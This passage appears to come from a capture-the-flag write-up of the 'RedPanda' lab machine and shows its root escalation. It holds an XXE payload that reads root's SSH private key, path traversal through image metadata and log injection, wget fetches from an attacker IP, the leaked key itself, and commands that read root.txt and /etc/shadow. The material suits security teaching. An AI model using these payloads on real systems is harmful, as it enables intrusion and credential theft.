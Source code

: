 With all this in mind, we can download one of the xml-files at `/credits/` and use as a base. Remember that the file name here is important as it will work together with the image metadata.
```bash
➜  redpanda cat pwn_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../dev/shm/e.jpg</uri>
    <foo>&xxe;</foo>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Next, change the metadata of a random image:
```bash
➜  redpanda exiftool -Artist="../dev/shm/pwn" e.jpg
➜  redpanda exiftool e.jpg | grep Artist
Artist                          : ../dev/shm/pwn
```

Upload the xml and image to the victim, and write your path traversal in `redpanda.log`. Wait for maximum two minutes until the jar is executed again and the xml-file should now contain the content of root `id_rsa`. 
```bash
woodenk@redpanda:/dev/shm$ wget http://10.10.14.6:8888/pwn_creds.xml
woodenk@redpanda:/dev/shm$ wget http://10.10.14.6:8888/e.jpg
woodenk@redpanda:/dev/shm$ echo "200||IP-ADDR||USERAGENT||/../../../../../../dev/shm/e.jpg" > /opt/panda_search/redpanda.log

woodenk@redpanda:/dev/shm$ cat pwn_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../dev/shm/e.jpg</uri>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
    <views>1</views>
  </image>
  <totalviews>1</totalviews>
</credits>

```

Write to file, login and win.
```bash
➜  redpanda vim root-id_rsa
➜  redpanda chmod 400 root-id_rsa 
➜  redpanda ssh root@redpanda.htb -i root-id_rsa

root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)

root@redpanda:~# cat root.txt 
84d3faba94901c92ecd00838f38ef288

root@redpanda:~# cat /etc/shadow
```